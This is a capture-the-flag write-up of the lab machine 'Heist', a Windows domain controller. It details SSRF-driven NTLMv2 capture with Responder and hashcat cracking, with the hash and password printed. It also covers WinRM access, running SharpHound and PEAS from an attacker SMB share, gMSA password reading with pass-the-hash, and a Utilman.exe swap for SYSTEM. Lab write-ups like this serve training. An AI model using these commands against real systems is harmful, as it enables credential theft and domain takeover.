# Heist

## Enumeration

Started with an Nmap TCP SYN scan as usual:


```
# Nmap 7.94SVN scan initiated Thu Jun 13 16:03:51 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.200.165
Nmap scan report for heist.offsec (192.168.200.165)
Host is up (0.052s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-13 22:05:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-13T22:07:17+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HEIST
|   NetBIOS_Domain_Name: HEIST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: heist.offsec
|   DNS_Computer_Name: DC01.heist.offsec
|   DNS_Tree_Name: heist.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-13T22:06:38+00:00
| ssl-cert: Subject: commonName=DC01.heist.offsec
| Not valid before: 2024-06-12T22:02:14
|_Not valid after:  2024-12-12T22:02:14
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
|_http-title: Super Secure Web Browser
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-13T22:06:40
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   51.58 ms 192.168.45.1
2   51.54 ms 192.168.45.254
3   52.01 ms 192.168.251.1
4   52.45 ms heist.offsec (192.168.200.165)ext
```


My first read is that this is a domain controller. Ports `53`, `88`, `389`, `636`, etc. make me think this. It seems the domain name is `heist.offsec` and the machine itself is `DC01.heist.offsec`.

I try `enum4linux` but unfortunately there is nothing super helpful this time:

<figure><figcaption><p>enum4linux was not terribly useful this time</p></figcaption></figure>

On to more manual enumeration.

### Port 53

I was able to receive some DNS records via `dig` but unfortunately my attempt at a zone transfer failed:

<figure><figcaption><p>Successful dig and failed zone transfer</p></figcaption></figure>

These records do seem to confirm I am dealing the the domain controller though.

### Port 135

I used rpcdump but none of the [notable RPC interfaces](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#notable-rpc-interfaces) were available.

I also tried anonymous login with `rpcclient` but it failed:

<figure><figcaption><p>Failed RPCClient</p></figcaption></figure>

### Ports 139 & 445

I tried `smbclient` and `smbmap` to see what I could discover with an anonymous login but it seems to be disabled:

<figure><figcaption><p>Failed SMB enumeration</p></figcaption></figure>

### Ports 389 & 636

I ran ldapsearch against port 389:


<figure><figcaption><p>Anonymous ldapsearch output</p></figcaption></figure>

The output also seems to confirm I am working with the DC but not much else. Perhaps I need to spend some more time with LDAP but for now this seems to be all I can get without a valid login.

### Port 8080

Based on what I have seen so far this is my best hope. The landing page is just this:

<figure><figcaption><p>Landing page of port 8080</p></figcaption></figure>

Not sure what this does. I quickly run `whatweb`:


```
http://heist.offsec:8080 [200 OK]
    Bootstrap[3.3.6],
    Country[RESERVED][ZZ],
    HTML5,
    HTTPServer[Werkzeug/2.0.1 Python/3.9.0],
    IP[192.168.200.165],
    JQuery[2.2.2],
    Python[3.9.0],
    Script,
    Title[Super Secure Web Browser],
    Werkzeug[2.0.1]
```


Wappalyzer has much the same information:

<figure><figcaption><p>Wappalyzer for port 8080</p></figcaption></figure>

I quickly combine Seclist's `Discovery/Web-Content/big.txt` and a custom wordlist generated with [`CeWL`](billyboss.md#cewl) to create a file called `web_enum.txt`. I then launch a `feroxbuster` session with it:


```bash
feroxbuster -L 20 -w ./enumeration/web_enum.txt -k -x ferox_extensions.txt -C 404 -E -r -u http://heist.offsec:8080 -o ./enumeration/p8080.feroxbuster
```



So now that I have done some of the basics it is time to see how this web app works. I start by opening up the inspector and it turns out it is super simple:

<figure><figcaption><p>Source code for landing page</p></figcaption></figure>

The `href` for the Random Topic button gives some insight to how the value in the search bar will be treated. It seems it will be appended as a `?url=` parameter to the web request.

Interestingly when I use the Random Topic button and redirect to `localhost` the actual page that loads is the Chrome no internet connection T-Rex game:

<figure><figcaption><p>Random Topic leads here</p></figcaption></figure>

This is especially weird considering I am running Firefox so that is definitely not from my machine. It almost seems like I am getting to see what is rendered on the target machine.

I decide to do some more investigation by putting a file on my HTTP server in the `/tmp` folder and trying to access it. Unfortunately it does not reach out to my machine and instead gets the error again:

<figure><figcaption><p>Error trying to reach my machine via redirect</p></figcaption></figure>

I think about this for a second. Why is it called "Secure" web browser? Maybe it only will go to HTTPS sites. So I try it with `https://google.com`. Previously the T-Rex game had come up immediately, but this time there was a long delay. Almost as if the machine was attempting to reach out to Google and failing. This makes sense since usually lab machines are not networked to the Internet. Instead I point it at `https://<my_ip>`. I do not have HTTPS setup right now but I can see the incoming request via `tcpdump`:

<figure><figcaption><p>Incoming request in green</p></figcaption></figure>

I set up an HTTPS server (self-signed certificate) and attempt it again this time using `wireshark` to record the interaction. It seems the server does reach out but after going through the TLS hello process it eventually sends a connection reset (RST) request:

<figure><figcaption><p>Connection reset by victim machine</p></figcaption></figure>

It seems like some form of remote file inclusion might not be the way in as was suggested by the overall structure of the website.

I take a step back. Maybe it was a mistake to use a `.txt` file as my test. I have my `/tmp` directory which renders as a directory or just the landing index.html page of my site. I decide I should test on those and lo-and-behold it works. Turns out I just wasted a bunch of time being overly complicated:

<figure><figcaption><p>Request</p></figcaption></figure>

<figure><figcaption><p>Landing page of my site</p></figcaption></figure>

The page looks a bit different as it seems the CSS and JavaScript are not included but the request was successful. I also see an entry in my access logs from the victim machine:


```
192.168.200.165 - - [13/Jun/2024:22:17:19 -0600] "GET / HTTP/1.1" 200 1322 "-" "Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)"
```


## Foothold

So at this point I have confirmed some sort of RFI/SSRF on port 8080. Now I need to figure out how to turn that into code execution.

### Figuring Out the Web Application

I start by just putting a simple HTML file (test.html) in my tmp directory and seeing what happens:


One thing to note is that this page has CSS and I am expecting it to "phone home" to get the CSS. When I use a relative path for the CSS link (e.g. `<link rel="stylesheet" href="../css/site.css>`) it does not work. But If I put the IP of my machine in the `href` (e.g. `<link rel="stylesheet" href="http://x.x.x.234/css/site.css>`) it does but the second request actually just comes from my machine:

<figure><figcaption><p>Second request for CSS is from my own machine</p></figcaption></figure>

This makes sense and explains a bit of how it works. It seems the initial request is made by the victim machine after a URL is submitted in the web interface. It then passes the web page back to the client (me) for rendering which is why that second request comes from my machine. This means no client-side attack or anything like that.

I googled the header that was coming in with the request, specifically "`WinHttp.WinHttpRequest.5`," and the results make it seem like this is coming from a [`WinHttpRequest` object](https://learn.microsoft.com/en-us/windows/win32/winhttp/winhttprequest).&#x20;

I need to figure out how to interrupt the execution flow. If I could somehow get at the code doing the request perhaps I could get it to request something malicious and then run it rather than just passing it to me for rendering.

I start messing with some different file types. I tried an executable just to see what would happen. It was just an exploit I had laying around from another run what's important is how it was handled. It seems it was interpreted as text and just handed back for rendering:

<figure><figcaption><p>Executable "rendered"</p></figcaption></figure>

I also tried a `.txt` and `.py` file. In both cases the text of the file rendered but nothing executed. With what I have seen the option of getting the returned information executed seems unlikely.

Taking stock of what I have I recognize that I have SSRF on the victim machine. Perhaps it could be tricked into divulging some credentials.

### Responder

[`Responder`](https://github.com/SpiderLabs/Responder) is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. `Responder` can be used for [credential gathering](https://medium.com/mii-cybersec/gaining-credentials-easily-with-responder-tool-b821f33e342b).

All of that to say, `Responder` can be set up on an IP and if it receives an incoming request it will attempt to get the connecting machine to give some credentials. I will be specifically focused on using the HTTP rogue authentication server. The plan is:

1. Shut down Apache
2. Spin up `Responder`
3. Use web page on port 8080 to request port 80 on my machine
   * This port is actually controlled by `responder` at this point
4. `Responder` will request authentication and capture whatever is provided

The command to set up `Responder` is:

```
responder -I tun0 -wv
```

* `-I` indicates interface to monitor
* `-w` tells responder to set up a rogue WPAD proxy server for [WPAD Spoofing](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/wpad-spoofing)
* `-v` sets verbose mode

This worked out pretty well. The request just rendered as a blank page, not the game that means the connection failed:

<figure><figcaption><p>Blank page rendered</p></figcaption></figure>

When I check responder I see it captured the NTLMv2 hash of a user called `enox`:

<figure><figcaption><p>Output of responder</p></figcaption></figure>

### Using the Hash

Because the hash is NTLMv2 there is a challenge-response involved in the hash so it [cannot be simply passed](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html). It could be used in a MiTM attack but that is a bit more complex so instead I will try cracking it first.

#### Cracking The Hash

[This article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) provides a description of the different NTLM hash types and conveniently also includes the hashcat cracking mode. If it did not I could have used `hashcat --help | grep -i ntlmv2` to find it.

I put the hash in a file called `enox.ntlmv2` and run it through hashcat:


```bash
hashcat -m 5600 -w 3 -o enox.cracked ./enox.ntlmv2 /usr/share/wordlists/rockyou.txt
```


Fortunately it cracks quickly:


```
ENOX::HEIST:778b9e47901c394e:5793c2a73495893305b456583f15fe6d:0101000000000000de872dd17cbeda0163674a66994b2a830000000002000800350030004900450001001e00570049004e002d00310057003700500057004b0048005700480043004b000400140035003000490045002e004c004f00430041004c0003003400570049004e002d00310057003700500057004b0048005700480043004b002e0035003000490045002e004c004f00430041004c000500140035003000490045002e004c004f00430041004c000800300030000000000000000000000000300000531811bebd383aaa57993678462237fbc5a8f33e2cea4a7ac9bb7945abc426000a001000000000000000000000000000000000000900260048005400540050002f003100390032002e003100360038002e00340035002e003200330034000000000000000000:california
```


Perfect so now I have some credentials to try out `enox:california`.

### Using the Credentials

I start by checking them on SMB with `crackmapexec`:

<figure><figcaption><p>Validated the credentials</p></figcaption></figure>

#### enum4linux

This did not reveal much during my initial enumeration but I am going to run it again now that I have valid credentials:

```bash
enum4linux -a -u enox -p california 192.168.247.165
```

This did reveal a lot of output but nothing in there was a red flag immediately.

#### WinRM

I decide to test if I can use WinRM to access the machine. The credentials can be tested with crackmapexec:


```bash
crackmapexec winrm 192.168.247.165 -u enox -d heist.offsec -p california -x "whoami /all"
```


* `-x` allows the execution of the command that follows

This worked and I find I can run commands via WinRM:

<figure><figcaption><p>crackmapexec confirms access with WinRM</p></figcaption></figure>

Time to get an interactive shell with `evil-winrm`:


```bash
evil-winrm -i 192.168.247.165 -u enox -p california
```


<figure><figcaption><p>Interactive user shell</p></figcaption></figure>

User access achieved as (`enox`).

## Privilege Escalation

I start by checking what users are on the machine. The net user command only returns 2 but it errors. I also list the `C:\Users` directory to see whats there:

<figure><figcaption><p>Potential users on machine</p></figcaption></figure>

### Scans

I know this machine is a domain controller so I will start with SharpHound then move to peas.

#### SharpHound

Use the SMB trick and run the SharpHound.exe from my machine. To host SMB:


```bash
impacket-smbserver -debug -smb2support tools $PWD
```


To access from victim machine:


```sh
\\x.x.x.234\tools\SharpHound.exe --CollectionMethods All --OutputDirectory \\x.x.x.234\tools\ --OutputPrefix "enzo"
```


#### PEAS

I use the same trick with peas.exe hosted on the same share:


```bash
\\x.x.x.234\tools\peas.exe -a quiet log=\\x.x.x.234\tools\enox.peas
```


Both scans complete successfully and the output was written directly to my machine:

<figure><figcaption><p>Running SharpHound and PEAS via SMB</p></figcaption></figure>

### Bloodhound

I upload the data to Bloodhound and start poking around it. Eventually under Analysis > Shortest Paths to High Value Targets I find something interesting about the `svc_apache$` account:

<figure><figcaption><p>ReadGMSAPassword</p></figcaption></figure>

It is a **gMSA** which will be explained below.

### Group Managed Service Account

A standalone Managed Service Account (sMSA) is a managed domain account that provides automatic password management, simplified service principal name (SPN) management and the ability to delegate the management to other administrators.

A [Group Managed Service Account](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) (gMSA) provides the same functionality within the domain and also extends that functionality over multiple servers.

The `Web Admins` group has the ability to retrieve the password of this gMSA via the `ReadGMSAPassword` privilege. This is relevant because `enox` is a member of the `Web Admins` group as found with `whoami /all` [above](heist.md#winrm).

As I am googling around I find this explanation on exploitation but it does not pan out because I cannot get DSInternals installed on the machine. Instead I turn to the help menu in Bloodhound which mentions this tool:

<figure><figcaption><p>Recommendation on exploiting this vector</p></figcaption></figure>

The [official repository](https://github.com/rvazarkar/GMSAPasswordReader) has no releases but I did find [this pre-compiled version](https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe) which I download and attempt to run on the victim machine

<figure><figcaption><p>Successfully reading the password</p></figcaption></figure>

The RC4 HMAC of the Current Value is the useful bit. It can be used with `evil-winrm`'s `-H` flag:

```bash
evil-winrm -i 192.168.247.165 -u svc_apache$ -H '023145FC00CE8BAB62704EB63AB7BDAB'
```

This results in a successful lateral movement:

<figure><figcaption><p>Shell as svc_apache$</p></figcaption></figure>

Now running as `svc_apache$`.

### Second Enumeration

This time I quickly notice that the `SeRestorePrivilege` is available on this account:

<figure><figcaption></figcaption></figure>

This is the main difference I can readily see from the enox account I was using before.

### SeRestorePrivilege

Luckily there are several tools out there for this privilege that can be found googling some combination of "SeRestorePrivilege" and "privilege escalation."

#### SeRestoreAbuse

[This](https://github.com/xct/SeRestoreAbuse/tree/main) is the first one I come across. I download it and compile it with MinGW:


```bash
x86_64-w64-mingw32-g++ -o SeRestoreAbuse.exe -lws2_32 SeRestoreAbuse.cpp
```


Unfortunately I cannot get it working on the machine. Perhaps there is a different way to abuse this.

#### HackTricks

There is! HackTricks has a [page](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) that explains how to abuse this token in a different way:

<figure><figcaption><p>HackTricks explanation on exploiting</p></figcaption></figure>

This is a little tougher than just a command line exploit but there is a way. Steps 1 & 2 are already done. So I start with step 3. `Utilman.exe` can be found in `C:\Windows\system32`. I rename it with the move command.

I then rename `cmd.exe` with another move command and the setup is complete:

<figure><figcaption><p>Setting up the exploit</p></figcaption></figure>

Now I just need to "Lock the console and press `Win`+`U`. This is not super easy from the command line but I have an idea to use RDP to get keyboard access to the machine. I normally use Remmina but it logs you straight in. Instead I will use rdesktop with no arguments to get an RDP session looking at the login screen (same as locked console). From there I can press `Win`+`U`.

<figure><figcaption><p>RDP session on lock screen</p></figcaption></figure>

Pressing the key combination launches a shell in the RDP session as `SYSTEM`:

<figure><figcaption><p>Shell opened in RDP session</p></figcaption></figure>

Root access achieved.

## Learned

* **Responder:** I had never seen this tool before. I quickly found that I could make the web server reach out (SSRF) but I was unsure what to do with that. I spent a lot of time chasing direct code execution rather than looking to leak credentials.
* **gMSA:** I was unfamiliar with Group Managed Service Accounts and had not seen the `GMSAReadPassword` privilege before. Luckily exploitation of this was fairly straightforward once I knew what I was looking for.
  * Use help tab on Bloodhound as it immediately pointed me to a methodology and tool for exploiting this privilege
* **SeRestorePrivilege:** The escalation vector was not super hard to find since I just googled each of the privileges with some form of "local privilege escalation." However, the initial exploit did not work. Fortunately HackTricks had a second option
  * Using `rdesktop` to launch the RDP session on a lock screen to get direct keyboard access to a machine that I only had a shell for.

### Difficulty Rating

* **Foothold - 0/10:** Reason
* **Privilege Escalation - 0/10:** Reason
